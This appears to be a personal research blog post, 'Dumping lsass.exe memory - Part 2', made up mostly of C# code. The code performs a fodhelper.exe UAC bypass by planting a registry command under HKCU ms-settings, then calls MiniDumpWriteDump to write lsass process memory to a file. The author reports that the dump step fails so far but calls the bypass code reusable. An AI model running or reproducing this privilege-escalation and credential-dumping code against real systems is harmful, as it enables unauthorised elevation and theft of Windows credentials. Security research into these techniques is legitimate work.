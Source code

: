# Dumping lsass.exe memory - Part 2

This is again a **failed** post, but I came accross new stuff to research on. So apparently I found a way to form UAC bypass but inorder to test my theory, I need to run the memory dump function in context of elevated process.

## What now?

- I need to use some sort of IPC to communicate accross medium integrity and high integrity process. 
- IPC exsists in multiple way in windows, i.e you can use shared pipes which medium inegrity process writes to pipe which is read by high integrity process and executes it.
- You can also use shared memory region, RPC or COM for the need but these are bit complicated to code for.

Code :
```c#
using System;
using System.Management;
using System.Management.Instrumentation;
using System.Diagnostics;
using System.Runtime.InteropServices;
using System.IO;
using Microsoft.Win32;

class Program
{
    [DllImport("dbghelp")]
    private static extern bool MiniDumpWriteDump(IntPtr hProcess, UInt32 ProcessId, SafeHandle hFile, UInt32 dumpType, IntPtr ExceptionParam, IntPtr UserStreamParam, IntPtr CallbackParam);

    //Perform UAC bypass using fodhelper
    static void ByPassUAC(string command)
    {
        //UAC Bypass using fodhelper.exe
        //REG ADD HKCU\Software\Classes\ms - settings\Shell\Open\command
        //REG ADD HKCU\Software\Classes\ms - settings\Shell\Open\command / v DelegateExecute / t REG_SZ
        //REG ADD HKCU\Software\Classes\ms - settings\Shell\Open\command / d "cmd.exe" / f

        RegistryKey myKey = Registry.CurrentUser.OpenSubKey("Software\\Classes\\ms-settings\\shell\\open\\command");
        if (myKey == null)
        {
            RegistryKey tmpKey = Registry.CurrentUser.CreateSubKey(@"Software\\Classes\\ms-settings\\shell\\open\\command");
            tmpKey.Close();
        }
        myKey.Close();
        RegistryKey Key = Registry.CurrentUser.OpenSubKey("Software\\Classes\\ms-settings\\shell\\open\\command",true);
        Key.SetValue("DelegateExecute", "REG_SZ");
        Key.SetValue("", command);
        return;
    }

    //Start a fodhelper.exe process
    static Process ActivateProcess(string name)
    {
        Process p = new Process();
        p.StartInfo.CreateNoWindow = true;
        p.StartInfo.FileName = name;
        p.Start();
        return p;
    }
    //Return the process id the process spawned by running fodhelper.exe i.e the cmd.exe running with elevated privs.
    // Refer : https://stackoverflow.com/questions/17922725/monitor-child-processes-of-a-process

    static int GetChildProcess(Process parentProcess)
    {
        int i = 0;
        ManagementObjectSearcher mo = new ManagementObjectSearcher(String.Format("Select * from Win32_Process Where ParentProcessID={0}", parentProcess.Id));
        return Convert.ToInt32(mo.Get()[0]["ProcessID"]);
    }

    static void WriteMem(Process p)
    {
        FileStream fs = new FileStream("lsass.dat", FileMode.Create);

        bool status = MiniDumpWriteDump(p.Handle, (UInt32)p.Id, fs.SafeFileHandle, (UInt32)2, IntPtr.Zero, IntPtr.Zero, IntPtr.Zero);
        if (status)
        {
            System.Console.WriteLine("Done!");
            fs.Close();
            System.Console.ReadLine();
        }
        else
        {
            System.Console.WriteLine("[!] Error dumping the process");
        }
        return;
    }

    static void Main(string[] args)
    {

        ByPassUAC("cmd.exe");
        Process p = ActivateProcess("C:\\Windows\\System32\\fodhelper.exe");
        GetChildProcess(p);
        WriteMem(p);
        return;
    }
}
```
As of now the code wont work since there is no dumping run in context on elevated process. But the same snippet can be used to perform UAC bypass in c#.

So considering todays progress I would find ways to run `WriteMem` in context of elvated process.
